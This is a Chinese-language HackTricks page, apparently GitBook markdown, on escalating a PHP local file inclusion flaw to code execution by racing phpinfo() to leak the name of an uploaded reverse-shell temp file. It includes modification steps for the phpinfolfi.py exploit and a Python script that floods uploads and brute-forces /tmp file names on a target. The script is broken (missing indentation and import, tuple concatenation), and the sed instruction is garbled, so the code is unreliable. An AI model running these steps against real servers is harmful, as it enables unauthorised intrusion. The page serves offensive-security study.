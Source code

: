 {% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们 20 多个自定义工具来映射攻击面，查找让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}


要利用此漏洞，您需要：**一个 LFI 漏洞，一个显示 phpinfo() 的页面，“file\_uploads = on”，并且服务器必须能够在“/tmp”目录中写入。**

[https://www.insomniasec.com/downloads/publications/phpinfolfi.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

**教程 HTB**：[https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s](https://www.youtube.com/watch?v=rs4zEwONzzk\&t=600s)

您需要修复利用（将 **=>** 改为 **=>**）。为此，您可以执行：
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
您还需要更改漏洞利用的**payload**（例如，使用php-rev-shell），**REQ1**（这应该指向phpinfo页面，并且应该包含填充，即：_REQ1="""POST /install.php?mode=phpinfo\&a="""+padding+""" HTTP/1.1_），以及**LFIREQ**（这应该指向LFI漏洞，即：_LFIREQ="""GET /info?page=%s%%00 HTTP/1.1\r --_ 在利用空字符时检查双“%”）

{% file src="../../.gitbook/assets/LFI-With-PHPInfo-Assistance.pdf" %}

### 理论

如果在PHP中允许上传文件，并且您尝试上传文件，则这些文件会存储在临时目录中，直到服务器处理完请求，然后这些临时文件会被删除。

然后，如果您在Web服务器中发现了LFI漏洞，您可以尝试猜测创建的临时文件的名称，并在文件被删除之前通过访问临时文件来利用RCE。

在**Windows**中，文件通常存储在**C:\Windows\temp\php**

在**linux**中，文件的名称通常是**随机的**，并位于**/tmp**。由于名称是随机的，因此需要**从某处提取临时文件的名称**，并在文件被删除之前访问它。这可以通过读取函数“**phpconfig()**”内容中的**变量$\_FILES**的值来完成。

**phpinfo()**

**PHP**使用**4096B**的缓冲区，当它**满**时，它会被**发送到客户端**。然后客户端可以**发送** **大量大请求**（使用大头部）**上传一个php**反向**shell**，等待**phpinfo()的第一部分返回**（其中包含临时文件的名称），并尝试在php服务器删除文件之前通过利用LFI漏洞**访问临时文件**。

**Python脚本尝试暴力破解名称（如果长度= 6）**
```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
url = 'http://target.com/index.php?c=/tmp/php' + fname
r = requests.get(url)
if 'load average' in r.text:  # <?php echo system('uptime');
print('[+] We have got a shell: ' + url)
sys.exit(0)

print('[x] Something went wrong, please try again')
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### 从黑客的角度看待您的网络应用、网络和云

**发现并报告具有实际商业影响的关键可利用漏洞。** 使用我们20多个自定义工具来映射攻击面，找到让您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
